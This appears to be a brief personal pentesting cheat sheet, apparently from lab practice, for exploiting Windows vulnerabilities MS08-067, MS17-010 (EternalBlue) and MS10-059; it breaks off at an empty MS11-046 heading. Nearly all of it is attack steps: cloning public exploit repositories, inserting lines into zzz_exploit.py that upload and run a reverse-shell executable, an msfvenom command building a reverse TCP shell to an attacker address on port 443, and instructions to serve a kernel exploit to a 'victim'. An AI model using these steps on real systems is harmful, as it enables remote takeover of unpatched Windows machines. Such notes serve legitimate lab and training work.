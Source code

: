 
### Windows
#### MS08-067
git clone https://github.com/andyacer/ms08_067.git
* configuration
  * pip install impacket
* 2 reverse options for shellcoding:
  * Use the third with 443
  * Use the third with default
  * Use second with default
  * Use second with port of third or another port
* Choose the right option of menu.
  * Find OS of machine
  * Guess lanhuage
* Needs Listener

### Windows
#### MS17-010
git clone https://github.com/worawit/MS17-010.git

##### zzz_exploit.py:
 * If needed USERNAME-"//"
 * next add the following 2 lines to below def smb
   
   smb_send_file(smbConn, '/root/htb/blue/puckieshell443.exe', 'C', '/puckieshell443.exe')
   
   service_exec(conn, r'cmd /c c:\\puckieshell443.exe')
 
* custom payload:
  ##### msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.28 LPORT=443 -f exe > shell.exe

* Needs Listener

##### eternalblue_exploit7.py

* use the https://github.com/nickvourd/eternalblue_win7_auto_gen in order to merge binaries nad payload
* Run the following: python MS17-010/eternalblue_exploit7.py <ip> /tmp/sc_x<arch>.bin
* Needs Listener

### Windows
#### MS10-059

* use the https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059 
* serve the MS10-059.exe (https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS10-059/MS10-059.exe) to victim
* run exploit: 
  ##### MS10-059.exe \<ip> \<port>
* Need Listener

### Windows
#### MS11-046
